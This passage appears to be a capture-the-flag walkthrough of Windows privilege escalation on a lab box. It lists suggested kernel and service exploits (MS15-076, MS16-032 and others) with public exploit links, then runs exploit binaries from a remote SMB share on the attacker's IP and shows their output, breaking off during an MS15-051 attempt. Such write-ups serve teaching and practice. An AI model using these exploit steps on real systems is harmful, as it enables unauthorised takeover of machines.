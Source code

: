     [*] Appears vulnerable to MS15-076
     [>] Description: Local DCOM DCE/RPC connections can be reflected back to a listening TCP socket allowing access to an NTLM authentication challenge for LocalSystem, which can be replayed to the local DCOM activation service to elevate privileges.
     [>] Exploit: https://www.exploit-db.com/exploits/37768/
     [>] Notes: None.

    [*] Appears vulnerable to MS15-078
     [>] Description: An EoP exists due to a pool based buffer overflow in the atmfd.dll driver when parsing a malformed font.
     [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms15_078_atmfd_bof.rb
     [>] Notes: None.

    [*] Appears vulnerable to MS16-032
     [>] Description: An EoP exists due to a lack of sanitization of standard handles in Windows' Secondary Logon Service.
     [>] Exploit: https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1
     [>] Notes: None.

    [*] Appears vulnerable to MS16-034
     [>] Description: An EoP exist when the Windows kernel-mode driver fails to properly handle objects in memory.
     [>] Exploit: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034
     [>] Notes: None.

   [*] Finished. Found 5 vulns :)


2. Lets try the exploits.

    MS15-076:
    "local DCOM activation service to elevate privileges" sound promising as we want to escalate.
    Reading about the exploit it's only tested on x64/x86 Windows 7/8.1, this box is Win2012 - lets try it anyway.

      C:\tmp> //10.10.14.8/pub-share/ms15-076/Trebuchet.exe C:\Users\Administrator\Desktop\root.txt C:\tmp\test.txt
        [!] Error reading initial file!

      However, trying on a file we know exists work:
        C:\tmp> //10.10.14.8/pub-share/ms15-076/Trebuchet.exe C:\Users\kostas\Desktop\user.txt.txt C:\tmp\test.txt
          [+] Loaded in 32 bytes.
          [+] Getting out our toolbox...
          Junction created for C:\Windows\temp\EQGJWGJW <<===>> C:\users\public\libraries\Sym\
          [+] Waiting for CreateSymlink to close...
          Opened Link \RPC Control\ (2) -> \??\C:\tmp\test.txt: 000000A8
          Holding Symlink open for 10 seconds...
          [+] Cleaning Up!
        C:\tmp> type test.txt
          d0c39409d7b994a9a1389ebf38ef5f73


    MS15-051:
      C:\tmp> //10.10.14.8/pub-share/Taihou64.exe whoami
        --- no response ---
      C:\tmp> //10.10.14.8/pub-share/ms15-051x64.exe
      [#] ms15-051 fixed by zcgonvh
      [#] usage: ms15-051 command
      [#] eg: ms15-051 "whoami /all"
